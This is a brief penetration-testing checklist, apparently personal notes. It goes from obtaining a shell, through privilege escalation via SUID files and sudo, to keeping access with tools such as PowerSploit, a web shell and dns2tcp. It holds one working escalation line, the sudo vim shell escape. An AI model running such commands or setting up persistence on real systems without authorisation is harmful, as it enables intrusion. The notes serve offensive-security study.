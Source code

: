 
INPUT: Shell
PROCESS:
- Stablish Shell
- Privilege Escalation
- Maintain Access
OUPUT: 
- root Shell


## Stablish Shell


## Privilege Escalation
[SUID]
- Search for files with SUID permission
[sudo]
- id
- sudo -l
- sudo vim -c ':!/bin/sh'

## Maintain Access
- PowerSploit
- Weewly
- dns2tcp